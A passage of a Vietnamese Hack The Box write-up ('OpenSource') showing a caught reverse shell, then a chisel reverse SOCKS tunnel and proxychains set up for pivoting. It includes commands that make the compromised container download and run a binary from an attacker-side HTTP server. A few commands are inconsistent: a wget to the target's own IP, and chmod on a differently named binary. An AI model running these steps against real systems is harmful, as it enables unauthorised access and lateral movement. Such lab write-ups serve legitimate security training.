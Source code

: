 Dựng nc listener ở port 9090 tương ứng .Và đem payload trên và bỏ vào url thôi.

```console
kali@kali~/machines.HTB/OpenSource/exploit$ nc -lnvp 9090
listening on [any] 9090 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.164] 59804
/app #
```

→ :tada: Ta đã có một `reverse shell`

## Chisel Tunnel
Download source code của `chisel` và giải nén

```console
kali@kali:~/machines.HTB/OpenSource/exploit$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz 
<--SNIP-->
kali@kali:~/machines.HTB/OpenSource/exploit$ gunzip chisel_1.7.7_linux_amd64.gz
```

Dựng http server để `container` lấy file

```console
kali@kali:~/machines.HTB/OpenSource/exploit$ sudo python3 -m http.server 8000
```

Đồng thời kích hoạt `Chisel` với mode `server` ở port 1337 để thực hiện reverse port forwarding.

```console
kali@kali:~/machines.HTB/OpenSource/exploit$ sudo chmod +x ./chisel_1.7.7_darwin_amd64
kali@kali:~/machines.HTB/OpenSource/exploit$ sudo ./chisel_1.7.7_linux_amd64 server --reverse --port 1337
2022/07/23 17:09:12 server: Reverse tunnelling enabled
<--SNIP-->
2022/07/23 17:15:38 server: session#1: tun: proxy#R127.0.0.1:1080=>socks: Listening
```

Chuyển qua shell của container, thực hiện lấy `Chisel` và sử dụng `Chisel` ở mode `client` 

```console
/app # mkdir /pipi
/app # cd /pipi
/pipi # wget http://10.10.11.164:8000/chisel_1.7.7_linux_amd64
<--SNIP-->
/pipi # chmod +x chisel_1.7.7_linux_amd64
/pipi # ./chisel_1.7.7_linux_amd64 client 10.10.14.3:1337 R:socks
2022/07/23 17:20:24 client: Connecting to ws:10.10.14.3:1337
2022/07/23 17:20:24 client: Connected (Latency 32.537626ms)
```

→ Ngon, kết nối thành công. 

Tiếp theo ta sẽ cấu hình `proxychains` để có dùng command trên Kali để tương tác với machine. Kéo xuống dưới cùng và thêm `socks5 127.0.0.1 1080`

```console
kali@kali:~/machines.HTB/OpenSource/exploit$ sudo nano /etc/proxychains4.conf
<--SNIP-->

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5  127.0.0.1 1080
```
